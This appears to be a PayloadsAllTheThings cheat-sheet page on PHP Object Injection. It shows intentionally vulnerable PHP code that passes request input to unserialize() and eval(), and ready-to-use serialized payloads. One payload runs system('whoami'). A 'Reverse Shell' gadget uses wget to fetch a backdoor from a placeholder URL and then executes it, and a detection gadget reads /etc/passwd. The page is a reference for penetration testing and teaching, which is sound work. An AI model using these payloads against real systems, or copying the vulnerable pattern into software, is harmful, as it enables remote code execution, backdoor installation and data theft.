 # PHP Object Injection

PHP Object Injection is an application level vulnerability that could allow an attacker to perform different kinds of malicious attacks, such as Code Injection, SQL Injection, Path Traversal and Application Denial of Service, depending on the context. The vulnerability occurs when user-supplied input is not properly sanitized before being passed to the unserialize() PHP function. Since PHP allows object serialization, attackers could pass ad-hoc serialized strings to a vulnerable unserialize() call, resulting in an arbitrary PHP object(s) injection into the application scope.

Also you should check the `Wrapper Phar://` in [File Inclusion - Path Traversal](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion%20-%20Path%20Traversal#wrapper-phar) which use a PHP object injection.

## Exploit with the __wakeup in the unserialize function

Vulnerable code:

```php
<?php 
    class PHPObjectInjection{
        public $inject;
        function __construct(){
        }
        function __wakeup(){
            if(isset($this->inject)){
                eval($this->inject);
            }
        }
    }
    if(isset($_REQUEST['r'])){  
        $var1=unserialize($_REQUEST['r']);
        if(is_array($var1)){
            echo "<br/>".$var1[0]." - ".$var1[1];
        }
    }
    else{
        echo ""; # nothing happens here
    }
?>
```

Payload:

```php
# Basic serialized data
a:2:{i:0;s:4:"XVWA";i:1;s:33:"Xtreme Vulnerable Web Application";}

# Command execution
string(68) "O:18:"PHPObjectInjection":1:{s:6:"inject";s:17:"system('whoami');";}"

```

## Others exploits

Reverse Shell

```php
class PHPObjectInjection
{
    // CHANGE URL/FILENAME TO MATCH YOUR SETUP
    public $inject = "system('wget http://URL/backdoor.txt -O phpobjbackdoor.php && php phpobjbackdoor.php');";
}

echo urlencode(serialize(new PHPObjectInjection));
```

Basic detection

```php
class PHPObjectInjection
{
    // CHANGE URL/FILENAME TO MATCH YOUR SETUP
    public $inject = "system('cat /etc/passwd');";
}

echo urlencode(serialize(new PHPObjectInjection));
//O%3A18%3A%22PHPObjectInjection%22%3A1%3A%7Bs%3A6%3A%22inject%22%3Bs%3A26%3A%22system%28%27cat+%2Fetc%2Fpasswd%27%29%3B%22%3B%7D
//'O:18:"PHPObjectInjection":1:{s:6:"inject";s:26:"system(\'cat+/etc/passwd\');";}'
```

## Thanks to

* [PHP Object Injection - OWASP](https://www.owasp.org/index.php/PHP_Object_Injection)
* [PHP Object Injection - Thin Ba Shane](http://location-href.com/php-object-injection/)